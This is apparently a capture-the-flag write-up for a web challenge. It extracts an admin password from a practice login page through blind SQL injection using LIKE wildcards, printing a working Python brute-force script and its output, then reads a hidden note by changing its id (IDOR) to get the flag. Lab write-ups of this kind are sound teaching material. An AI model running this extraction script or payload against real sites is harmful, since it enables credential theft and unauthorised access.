

# web2

For this challenge, we are given a website.  Opening the link takes us to this page:


Looks like we are presented with a login. We are also given the source code to this webpage, so maybe we can do something with that.

Looking through the source code, we see a comment mentioning a vulnerable piece of code:

```php
    // XXX: this is vuln to SQL injection!
    $query_str = "SELECT id, username, password FROM users WHERE username='$username';";
    echo '* <b>Query:</b> ' . htmlentities($query_str) . '<br>'
```

This piece of code is vulnerable to something known as a SQL injection.  With a specially crafted username, we can escape the `$username` and add on to the query with our own SQL code.  But what can we add onto the query in order login? 

The answer is the `LIKE` operator.  According to w3schools:
> The LIKE operator is used in a WHERE clause to search for a specified pattern in a column.
>
> There are two wildcards often used in conjunction with the LIKE operator:
>
> % - The percent sign represents zero, one, or multiple characters
> _ - The underscore represents a single character

So if we can make `username='$username'` evaluate to true, and then tack on a `and password like 'x%'`, and just iterate all possible characters for `x`, we can get the first character of the password for said username.  We can then repeat that process for every character until we get the full password.

After some trial and error, we can figure out that the username we want to steal from is `admin`.  and so the query we want to inject is `admin' and password like 'x%`

We can write a simple python script to automate this process:

```python
import requests
import string

url_val = "http://ctf-league.osusec.org:8080/login.php"
obj = {'password':'', 'username':''}
failed = "password is incorrect"
pwd = ''

while True:
    for i in string.printable:
        obj['username'] = "admin' and password like '" + pwd + i + "%"

        x = requests.post(url = url_val, data = obj, timeout=2.5)

        if(x.text.find(failed) > 0):
            pwd = pwd + i
            print(pwd)
            break

```

Running this script we get the password for admin:
```
$ python3 pwn.py
k
kl
kl6
kl62
kl62j
kl62jd
kl62jdi
kl62jdic
kl62jdicu
kl62jdicu3
kl62jdicu31
kl62jdicu31a
kl62jdicu31ad
kl62jdicu31ad%
```
The password is `kl62jdicu31ad`

After logging in, we are greeted with another page.  This one seems to be some sort of note maker:


We are told to look into "Insecure direct object references", which is a type of access control vulnerability that happens in applications that use user supplied input directly.  

Opening a note, we can see how we could abuse that:


What if we directly modified the url to point us to a note that would otherwise be inaccesible?  Let's try setting it to `1`:


Next note contains the flag! Changing it to `2` and we get our flag:



```
flag{r3m3mber_t0-g00gle_wh3n_f@cing_a_d1fficult-challenge!}
```
